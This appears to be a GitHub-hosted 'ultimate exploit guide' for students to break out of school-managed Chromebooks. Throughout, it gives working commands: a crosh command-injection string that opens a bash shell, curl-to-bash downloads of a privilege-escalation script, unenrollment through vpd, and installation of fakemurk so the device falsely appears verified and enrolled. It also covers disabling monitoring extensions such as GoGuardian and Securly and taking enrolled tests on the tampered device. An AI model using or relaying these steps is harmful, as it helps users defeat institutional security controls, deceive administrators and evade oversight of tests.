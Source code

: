 # The ultimate exploit guide

For this set of exploits, you will need one (or two, if you want to use the unenrollment exploit easily) 8gb or larger USB drive(s), and a chromebook with a board that's either on chrome100 or cros.tech (or, if you're unlucky enough to be on `kindred`, see [here](https://rainestorme.github.io/chrome81/kindred)). There's no need to have your chromebook be compatible with sh1mmer, because this exploit uses only recovery images and traditional exploits.

If you're using one USB drive, then flash it with a copy of ChromeOS 81 for your chromebook's board. If you're using two drives, flash the first one with the same file. If this isn't your first time running this exploit, then you should already have the required recovery drives.

Plug your cros 81 drive into your chromebook and press `Esc+Refresh+Power`. Wait for the process to finish, then reboot and log in as normal, with your school account. Press `Ctrl+Alt+T`. If crosh opens, you can proceed to the next step. Otherwise, use LtBEEF or some other extension-removal exploit to disable whatever extension might be blocking crosh.

Inside of crosh, type in `set_cellular_ppp \';bash;exit;\'`. You should be dropped into a bash prompt. We now have to run a privelige escalation exploit, which is also hosted in this repo (https://github.com/rainestorme/resources/tree/main/80.sh). Run: `bash <(curl https://raw.githubusercontent.com/rainestorme/resources/main/80.sh)` and wait for it to finish.

You should be dropped into a *root* bash prompt (please, please, hold your applause). You now have two choices. You can:

- Unenroll your Chromebook, and, optionally, fakemurk it so that it appears to be verified

     or

- Leave your Chromebook in verified mode and run cedr

## Unenrollment, fakemurk, and murkmod

If you want to unenroll your Chromebook, just run: `vpd -i RW_VPD -s check_enrollment=0`. From there, press `Esc+Refresh+Power` and press `Ctrl+D`. Press enter, then wait for the chromebook to reboot. Press `Ctrl+D` if a screen shows up about verification being off, and wait for the chromebook to reboot in verified mode. All data should be cleared, and your chromebook will be unenrolled. You can setup your chromebook as normal, and sign in with a home account.

To fakemurk your Chromebook, you have to be unenrolled first. Update your Chromebook (it'll only update to v105) and press `Esc+Refresh+Power`. Press `Ctrl+D`, then enter. Wait the 5 minutes for your Chromebook to enter developer mode, then proceed with typical setup. When you get logged in, press `Ctrl+Alt+T` and type `shell`.

Before you do anything else, however, you need to set up some failsafes. Fakemurk in general is pretty tempramental, and if you mess something up you could easily destroy your installation of ChromeOS. Grab the USB drive you used earlier, or grab the second USB drive if you're using two drives. Install the Chromebook Recovery Tool from the chrome webstore and flash the drive with a v105 image, Just In Case You Fuck It Up™.

We're also going to install MrChromeBox's RW_LEGACY firmaware. Run:

```sh
cd; curl -LOk mrchromebox.tech/firmware-util.sh && sudo bash firmware-util.sh
```

And then press `1` and then enter. Wait for it to finish and proceed with the next step, running:

```sh
sudo su
bash <(curl -SLk https://github.com/MercuryWorkshop/fakemurk/releases/latest/download/fakemurk.sh)
```

If the last command errors, press `Esc+Refresh+Power` and recover your chromebook with the v105 drive to try again. Keep trying until it works.

Follow the instructions (be sure to respond "Y" for emergency backups, they're useful in a pinch) and wait for your Chromebook to reboot. Once it reboots, press `Ctrl+D` to continue the boot process. Wait for your Chromebook to enroll. If everything works correctly (as it rarely does) then you should be enrolled as normal, but will have the fakemurk components installed on your device. If enrollment takes a while and then complains about a missing certificate, don't panic! This is normal. Just press `Refresh+Power` and wait for the warning to pop up. Instead of pressing `Ctrl+D`, press space and enter to **disable developer mode**. **Immediately after pressing these keys, press `Refresh+Power`**. This will result in a "ChromeOS is missing or damaged" screen. Once again, this is supposed to happen. Press `Esc+Refresh+Power` and `Ctrl+D` again, **re-enabling developer mode**. There's no five-minute wait this time around, because the rootfs is already unverified and doesn't need to be changed. When you get back to the warning, press `Ctrl+D` to boot. Try to enroll now, and after a short wait, it should work. 

You should be able to use your Chromebook as an enrolled device, take enrolled tests, and do a ton of other fun things. Sometime in the future, I plan to release a tool allowing the opening of extra browser tabs during kiosk tests (because I know you skids would love that), but that's irrellevant.

Open up crosh (`Ctrl+Alt+T`). You might notice that it's been replaced by "mush", the fakemurk replacement for crosh. You can do a lot from here, but a few key options stand out. Obviously, you want to disable certain extensions, such as GoGuardian, Gopher Buddy and Securly. I don't personally reccomend using "Soft Disable Extensions", as it uses a lot of CPU. It's much easier to hard disable extensions and re-enable them later.

One of my favorite capabilities of fakemurk is to run an entire linux desktop environment side-by-side ChromeOS with Crouton. Select the option and wait for it to download the chroot environment to the device. Once you set a password and install the desktop, you can drop into a root bash shell and type `startxfce4` to start the crouton desktop. While you're running the desktop, you can press `Ctrl+Shift+Forward` and `Ctrl+Shift+Back` to get back and forth between the desktop environments.

Policies are also modified, courtesy of Pollen. You can do a lot of things that are normally restricted, such as accessing the webstore and downloading extensions, and installing unsigned apks.

You also have the option of installing murkmod, a project that allows you to install plugins for mush, fakemurk's replacement for crosh. To do so, open a root shell and run the following:

```sh
bash <(curl -SLk https://raw.githubusercontent.com/rainestorme/murkmod/main/murkmod.sh)
```

## Cedr

Cedr is my own little pet project, allowing you to run Crouton on an enrolled Chromebook. The issue with Cedr is that it requires an external drive to store the chroot on. I reccomend using a MicroSD card for chroot storage, but a USB drive can also be used.

Insert the storage device (USB drive/MicroSD card) and find its block device. Run `fdisk -l` and try to identify the device you plugged in.

Cedr allows you to choose any desktop supported by Crouton in this step, but for the sake of simplicity I'll go with xfce4 for this tutorial. Run the following commands, replacing `/dev/sdX` with the block device representing your storage device:

```sh
curl https://raw.githubusercontent.com/rainestorme/cedr/main/cedr-bootstrap.sh | bash -s /dev/sdX xfce
bash <(curl http://raw.githubusercontent.com/rainestorme/cedr/main/cedr-umount.sh)
```

The drive should be unmounted automatically, and you can remove it.

To activate the desktop environment, you can plug in the device and identify its block device again (as above), or, if you never unplugged it from the last step, use the same one. Run:

```sh
curl https://raw.githubusercontent.com/rainestorme/cedr/main/cedr-mount.sh | bash -s /dev/sdX
```

You can freely swap back and forth between ChromeOS and Cedr at will. Once you're finished, log out of your session and run:

```sh
bash <(curl http://raw.githubusercontent.com/rainestorme/cedr/main/cedr-umount.sh)
```
